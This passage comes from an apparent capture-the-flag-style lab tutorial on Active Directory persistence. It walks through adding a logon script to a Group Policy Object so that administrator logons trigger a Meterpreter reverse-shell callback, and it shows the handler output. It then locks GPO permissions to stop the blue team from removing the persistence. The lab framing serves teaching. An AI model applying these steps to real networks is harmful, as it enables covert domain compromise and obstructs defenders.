 ![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/c74b252805561488167c1a7c5d02dcce.png)

Select your Batch file as the script and click **Open** and **OK**. Click **Apply** and **OK**. This will now ensure that every time one of the administrators (tier 2, 1, and 0) logs into any machine, we will get a callback.

In order to simulate this, let's reset the password for one of the Tier 1 administrator accounts and authenticate to a server. Use any of the techniques you've learned in the previous AD rooms to either reset the password of one of the Tier 1 administrators. Once done, remember to start your MSF multi-handler, and let's test it out by RDPing into THMSERVER1 or THMSERVER2!

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:

```markup
msf5 exploit(multi/handler) > run 
Started reverse TCP handler on 172.31.16.251:4445 

[*] Sending stage (176195 bytes) to 172.31.1.201 
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100 

meterpreter >
```

Note: You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that only performs a disconnect which means it would not trigger the GPO. Make sure to select navigate to sign out as shown below in order to terminate the session. This will ensure that a Logon event is generated when you reauthenticate:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/7e98b74b5dd21316a351384085eb2b5d.png)

### Hiding in Plain Sight

Now that we know that our persistence is working, it is time to make sure the blue team can't simply remove our persistence. Go back to your MMC windows, click on your policy and then click on Delegation:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/744c4e6a1dd0a5aef63680cc7cf53120.png)

By default, all administrators have the ability to edit GPOs. Let's remove these permissions:

1. **Right-Click** on **ENTERPRISE DOMAIN CONTROLLERS** and select **Edit settings, delete, modify security**.
2. **Click** on all other groups (except Authenticated Users) and click **Remove**.

You should be left with delegation that looks like this:

![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/79f5e69b102214a73b605ed86e67aa7d.png)

Click on Advanced and remove the Created Owner from the permissions:

![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/cb338537225085db379e8f5fecf82684.png)

By default, all authenticated Users must have the ability to read the policy. This is required because otherwise, the policy could not be read by the user's account when they authenticate to apply User policies. If we did not have our logon script, we could also remove this permission to make sure that almost no one would be able to read our Policy.
